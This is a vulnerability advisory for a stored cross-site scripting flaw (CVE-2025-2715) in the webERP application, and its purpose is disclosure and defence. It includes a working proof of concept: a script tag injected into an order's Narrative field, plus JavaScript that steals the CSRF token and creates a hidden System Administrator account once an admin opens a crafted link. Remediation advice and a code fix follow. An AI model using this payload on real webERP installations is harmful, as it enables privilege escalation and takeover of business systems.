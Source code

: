 # Cross Site Scripting in webERP

### Title: Cross Site Scripting in webERP <=v4.15.2 and 5.0.0.rc+13
### Affected Component: /ConfirmDispatch_Invoice.php
### CWE: CWE-79 (Cross Site Scripting)
### CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:A/VC:H/VI:H/VA:N/SC:H/SI:H/SA:N
### CVE: [CVE-2025-2715](https://www.cve.org/CVERecord?id=CVE-2025-2715)
### VulDB: [VDB-300735](https://vuldb.com/?id.300735)


### Vendor homepage:
[https://github.com/timschofield/webERP](https://github.com/timschofield/webERP)

### **Summary**
A **Cross-Site Scripting (XSS)** vulnerability exists in the application, which allows a user with the **Inquiries/Order Entry** security role to inject malicious scripts through the **Narrative** field when creating an order. This XSS attack can lead to privilege escalation, allowing the attacker to create a new user with **System Administrator** privileges. The attack is triggered when a user with permissions to create new users accesses the **Confirm Dispatch and Invoice** page.

An attacker can exploit this vulnerability by sending a specially crafted URL to a system administrator. The administrator, unaware of the malicious payload, opens the link, unknowingly executing the script. This results in a new **System Administrator** user being created in the system.

The malicious payload is rendered from this script: ConfirmDispatch_Invoice.php

---

### **Details**
When creating an order, the **Narrative** field does not properly sanitize user input, allowing **HTML** and **JavaScript** code to be injected. The unsanitized input is later rendered on the **Confirm Dispatch and Invoice** page, where the injected script is executed.

In this case, the injected script loads an external payload hosted on a local Python server. This payload, when executed, sends a **POST request** to the application, creating a new **admin user** with elevated privileges.

---

### **Proof of Concept (PoC)**
To reproduce the issue, follow these steps:

1. **Set up the environment using Docker**.
2. **Create a new user** with the **Inquiries/Order Entry** security role.
3. Open a **new private browsing window** (or a different browser) to ensure you’re logged in as the new user.
4. **Create a new order**, and in the **Narrative** field, inject the following payload: `<script src=http://127.0.0.1:8081></script>`
5. Continue the order process until reaching the **Confirm Dispatch and Invoice** page.
6. Copy the **URL** from the page and send it to a System Administrator. (example: http://127.0.0.1:8899/ConfirmDispatch_Invoice.php?identifier=1740400970&OrderNumber=15)
7. Have the administrator **open the URL**. The script will execute in their browser.
8. Once the administrator has opened the URL, **check the system users**. A new user with the username **PoCUser** will have been added with **administrator privileges**.

**Note:** The payload can be modified as necessary. Ensure your local server is running on port **8081** or update the script accordingly.

**The payload from script.js**
```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', '/WWW_Users.php', false);
xhr.withCredentials = true;
xhr.send();
var doc = new DOMParser().parseFromString(xhr.responseText, 'text/html');
var csrftoken = encodeURIComponent(document.querySelector('input[name="FormID"]').value);

console.log(csrftoken);

// Create new user
var csrf_req = new XMLHttpRequest();
var params = `FormID=${csrftoken}&UserID=PoCUser&Password=admin&RealName=PoC%20XSS&Phone=&Email=poc%40exploit.com&Access=8&ID=admin&CanCreateTender=0&DefaultLocation=AN&Cust=&BranchCode=&SupplierID=&Salesman=&PageSize=A4&Theme=xenos&UserLanguage=en_US.utf8&Module_0=1&Module_1=1&Module_2=1&Module_3=1&Module_4=1&Module_5=1&Module_6=1&Module_7=1&Module_8=1&Module_9=1&Module_10=1&ShowDashboard=0&ShowPageHelp=1&ShowFieldHelp=1&PDFLanguage=0&Department=0&Blocked=0&submit=Enter+Information`;
csrf_req.open('POST', '/WWW_Users.php', false);
csrf_req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
csrf_req.withCredentials = true;
csrf_req.send(params);
```

#### Screenshots
##### The python server hosting the payload with the incoming request
![python-server-hosting-payload](./assets/weberp-listener.png)

##### The order placement form with the low level user adding the payload in the Narrative field
![low-level-user-payload-entry](./assets/weberp-payload.png)

##### The admin visits the page with the payload - not seeing the payload being executed
![admin-user-visiting-dispatch-page-executing-payload](./assets/weberp-admin-visit-payload.png)

##### Screenshot of the FormID being logged
![console-logging-formid](./assets/weberp-admin-console-log.png)

##### Requests to WWW_Users.php - GET request to get the FormID and POST to create the new **System administrator** user
![admin-user-created](./assets/weberp-console-requests.png)


##### User grid with the newly created admin user
![pocuser-created](./assets/weberp-new-admin-exploit.png)



### Impact
This XSS vulnerability allows an attacker to escalate their privileges and create a new System Administrator user. Once created, the attacker has full access to the backend, enabling further system manipulation, including data modification and configuration changes.


### **Remediation Recommendations**
To mitigate this Cross-Site Scripting (XSS) vulnerability and prevent unauthorized users from escalating privileges or injecting malicious payloads, we recommend the following actions:

- Sanitize and escape User Inputs
- Implement a Content Security Policy
- Use a Web Application Firewall (WAF)
- Implement Multi-Factor Authentication

A code fix could be to change `ConfirmDispatch_Invoice.php` line 473:

**From**
```php
$Narrative = str_replace('\r\n', '<br />', $LnItm->Narrative);
```

**To**
```php
$Narrative = str_replace("\r\n", '<br />', htmlspecialchars($LnItm->Narrative, ENT_QUOTES, 'UTF-8'));
```


## **Credits**
> [Jelle Janssens](https://github.com/janssensjelle)